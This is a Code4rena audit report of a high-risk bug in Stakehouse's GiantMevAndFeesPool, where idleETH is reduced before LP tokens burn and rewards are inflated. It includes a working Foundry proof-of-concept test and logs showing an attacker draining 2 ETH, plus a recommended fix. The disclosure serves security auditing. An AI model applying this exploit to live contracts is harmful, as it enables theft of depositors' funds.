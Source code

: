 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- edited-by-warden
- H-08

# [function withdrawETH from GiantMevAndFeesPool can steal most of eth because of idleETH is reduced before burning token](https://github.com/code-423n4/2022-11-stakehouse-findings/issues/129) 

# Lines of code

https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/GiantPoolBase.sol#L57-L60
https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/GiantMevAndFeesPool.sol#L176-L178
https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/SyndicateRewardsProcessor.sol#L76-L90


# Vulnerability details

## Impact

The contract GiantMevAndFeesPool override the function totalRewardsReceived:
```
return address(this).balance + totalClaimed - idleETH;
```
The function totalRewardsReceived is used as the current rewards balance to caculate the unprocessed rewards in the function `SyndicateRewardsProcessor._updateAccumulatedETHPerLP`
```
uint256 received = totalRewardsReceived();
uint256 unprocessed = received - totalETHSeen;
```
But it will decrease the `idleETH` first and then burn the lpTokenETH in the function `GiantMevAndFeesPool.withdrawETH`. The lpTokenETH burn option will trigger `GiantMevAndFeesPool.beforeTokenTransfer` which will call _updateAccumulatedETHPerLP and send the accumulated rewards to the msg sender. Because of the diminution of the idleETH, the `accumulatedETHPerLPShare` is added out of thin air. So the attacker can steal more eth from the GiantMevAndFeesPool.

## Proof of Concept
I wrote a test file for proof, but there is another bug/vulnerability which will make the `GiantMevAndFeesPool.withdrawETH` function break down. I submitted it as the other finding named "GiantLP with a transferHookProcessor cant be burned, users' funds will be stuck in the Giant Pool". You should fix it first by modifying the code https://github.com/code-423n4/2022-11-stakehouse/blob/main/contracts/liquid-staking/GiantMevAndFeesPool.sol#L161-L166 to :
```
if (_to != address(0)) {
    _distributeETHRewardsToUserForToken(
        _to,
        address(lpTokenETH),
        lpTokenETH.balanceOf(_to),
        _to
    );
}
```
I know modifying the project source code is controversial. Please believe me it's a bug needed to be fixed and it's independent of the current vulnerability.

test:
test/foundry/TakeFromGiantPools2.t.sol
```
pragma solidity ^0.8.13;

// SPDX-License-Identifier: MIT

import "forge-std/console.sol";
import {GiantPoolTests} from "./GiantPools.t.sol";

contract TakeFromGiantPools2 is GiantPoolTests {
    function testDWUpdateRate2() public{
        address feesAndMevUserOne = accountOne; vm.deal(feesAndMevUserOne, 4 ether);
        address feesAndMevUserTwo = accountTwo; vm.deal(feesAndMevUserTwo, 4 ether);
        // Deposit ETH into giant fees and mev
        vm.startPrank(feesAndMevUserOne);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        vm.stopPrank();
        vm.startPrank(feesAndMevUserTwo);
        giantFeesAndMevPool.depositETH{value: 4 ether}(4 ether);
        giantFeesAndMevPool.withdrawETH(4 ether);
        vm.stopPrank();
        console.log("user one:", getBalance(feesAndMevUserOne));
        console.log("user two(attacker):", getBalance(feesAndMevUserTwo));
        console.log("giantFeesAndMevPool:", getBalance(address(giantFeesAndMevPool)));
    }

    function getBalance(address addr) internal returns (uint){
        // just ETH
        return addr.balance;  // + giantFeesAndMevPool.lpTokenETH().balanceOf(addr);
    }

}
```
run test:
```
forge test --match-test testDWUpdateRate2 -vvv
```

test log:
```
Logs:
  user one: 0
  user two(attacker): 6000000000000000000
  giantFeesAndMevPool: 2000000000000000000
```

The attacker stole 2 eth from the pool.

## Tools Used
foundry

## Recommended Mitigation Steps
`idleETH -= _amount;` should be after the `lpTokenETH.burn`.